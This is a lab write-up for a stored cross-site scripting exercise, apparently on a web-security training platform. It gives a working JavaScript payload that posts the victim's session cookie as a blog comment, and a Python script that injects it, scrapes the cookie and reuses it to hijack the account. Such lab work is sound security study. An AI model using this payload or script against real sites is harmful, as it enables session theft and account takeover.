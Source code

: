 ```yaml
---
title: 'XSS Lab 22'
description: 'Stored XSS in blog comments used to force victims to post their session cookie via CSRF-like behavior'
---
```



## Exploiting cross-site scripting to steal cookies

<div style="text-align: justify;">
  This lab contains a stored cross-site scripting (XSS) vulnerability in the blog comments function. The exploit shown here leverages the XSS to make a victim browser automatically submit a new comment on the victim's behalf containing their own session cookie — effectively turning the XSS into a CSRF that publishes the cookie to the site's comments (an alternative to using an external exfiltration server like Burp Collaborator). After the cookie is posted in a comment, the attacker can retrieve it and reuse the `session` cookie to impersonate the victim (for example, by visiting `/my-account` with the stolen cookie).
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The blog comment field is stored and later rendered to visitors (stored XSS).
- Inject JavaScript as a comment that, when executed by a victim, reads the victim's CSRF token from the current page and then submits a comment containing `document.cookie`.
- The comment submission endpoint (`/post/comment`) accepts the normal CSRF-backed comment POST; because the victim's browser is authenticated, the comment is posted under the victim session.
- The attacker (or an automated script) can then fetch the post page and extract the cookie value published in the comment body.
- Use the published `session` cookie value in subsequent requests (or replace your own session cookie) to load `/my-account` and impersonate the victim.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import re
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def check_burp():
    try:
        requests.get("http://127.0.0.1:8080", proxies=proxies, timeout=3, verify=False)
    except Exception:
        print("[-] Burp Suite not running.")
        sys.exit(1)

def exploit_xss(url, payload):
    s = requests.Session()
    s.proxies = proxies
    s.verify = False

    post_page = url.rstrip("/") + "/post?postId=4"   # changed to 4
    # fetch page to get csrf
    r = s.get(post_page)
    r.raise_for_status()
    soup = BeautifulSoup(r.text, "html.parser")
    csrf_input = soup.find("input", {"name": "csrf"})
    if not csrf_input:
        print("[-] CSRF token not found")
        return False
    csrf = csrf_input["value"]

    data = {
        "csrf": csrf,
        "postId": "4",   # changed to 4
        "comment": payload,
        "name": "test",
        "email": "test@test.com",
        "website": "http://test.com"
    }
    # submit the comment (XSS payload)
    s.post(url.rstrip("/") + "/post/comment", data=data)

    # fetch the post page again using same session (so we capture any rendered comment)
    resp = s.get(post_page)
    resp.raise_for_status()

    # extract session token from page content into variable
    match = re.search(r'session=([A-Za-z0-9]+)', resp.text)
    session_token = match.group(1) if match else None

    print("session_token =", session_token)

    # --- send the final request with Cookie: session={session_token} ---
    if session_token:
        headers = {'Cookie': f'session={session_token}'}
        final_resp = s.get(url.rstrip("/") + "/my-account", headers=headers)
        final_resp_text = final_resp.text
    else:
        print("[-] No session token extracted, sending normal request instead")
        final_resp = s.get(url.rstrip("/") + "/")
        final_resp_text = final_resp.text

    # check if lab solved (adjust check-string if different)

    session = requests.Session()
    res = session.get(url, verify=False, proxies=proxies)
    if "Congratulations" in res.text:
        print("[+] Lab solved 🎉")
        return True
    else:
        print("[-] Lab not solved (no success string found).")
        return False


def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        sys.exit(1)
    url = sys.argv[1].rstrip("/")
    check_burp()
    print("[*] Attempting XSS on postId=4...")
    payload = """
<script>
window.addEventListener('DOMContentLoaded', function() {
  var token = document.getElementsByName('csrf')[0].value;
  var data = new FormData();
  data.append('csrf', token);
  data.append('postId', 4);
  data.append('comment', document.cookie);
  data.append('name', 'victim');
  data.append('email', 'test@test.com');
  data.append('website', 'http://test.com');
  fetch('/post/comment', { method: 'POST', mode: 'no-cors', body: data });
});
</script>
    """
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```